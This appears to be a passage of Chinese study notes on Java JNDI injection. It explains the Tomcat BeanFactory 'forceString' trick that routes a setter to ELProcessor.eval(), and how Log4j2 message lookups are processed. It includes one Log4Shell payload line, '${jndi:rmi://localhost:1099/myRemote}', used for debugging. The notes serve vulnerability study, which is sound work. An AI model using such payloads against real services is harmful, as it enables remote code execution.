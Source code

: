 2. 首先代码会到 `ResourceRef` 指定的工厂类，即 `BeanFactory` 的 `getObjectInstance()` 方法来“生产”对象。

3. `BeanFactory` 是创建 Bean 实例，并且调用了 setter 和 getter 方法。但是 setter 在 `BeanFactory` 是可以被强制修改的：
    ![image-20230514134652886](image-20230514134652886.png)
    可以看出，通过指定 `forceString` 来强制修改 setter，将其变成 `eval()`。

4. 至于为什么选 `ELProcessor` 类作为工厂的“产品”类：
    ![image-20230514135237770](image-20230514135237770.png)
    一方面，它有无参构造方法以及执行命令的方法；另一方面，它执行命令的方法的形参只有 String，这个一般认为的 setter 的格式相似，而且这里也符合它的代码逻辑。

5. 最终就会调用输入的命令：
    ![image-20230514135540893](image-20230514135540893.png)

6. todo `StringRefAddr` 的用法。

## 5. Log4j2

### 5.1 基本原理

1. 详见 su18 师傅的文章：

    > https://su18.org/post/log4j2/#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0

### 5.2 补充

1. “消息格式化”中，`MessagePatternConverter` 的创建，是在：
    ```java
    Logger logger = LogManager.getLogger();
    ```

    的过程中实例化。因此如果使用注解，debug 过程就没法看到其实例化过程。

2. 然后 `StrSubstitutor#replace` 的过程在：
    `logger.error("${jndi:rmi://localhost:1099/myRemote}", Log4j2.class);`。

3. todo `org.apache.logging.log4j.core.lookup.StrSubstitutor` 的执行逻辑。

